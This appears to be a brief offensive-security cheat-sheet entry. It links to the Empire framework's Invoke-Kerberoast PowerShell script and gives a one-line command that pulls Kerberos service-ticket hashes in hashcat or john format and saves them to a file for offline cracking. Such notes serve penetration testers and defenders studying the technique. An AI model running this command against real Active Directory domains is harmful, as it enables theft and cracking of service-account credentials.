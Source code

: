 ### source
https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1  

### kerberoast
```
Invoke-Kerberoast -OutputFormat <[hashcat|john]> | % { $_.Hash } | Out-File -Encoding utf8 <file>
```

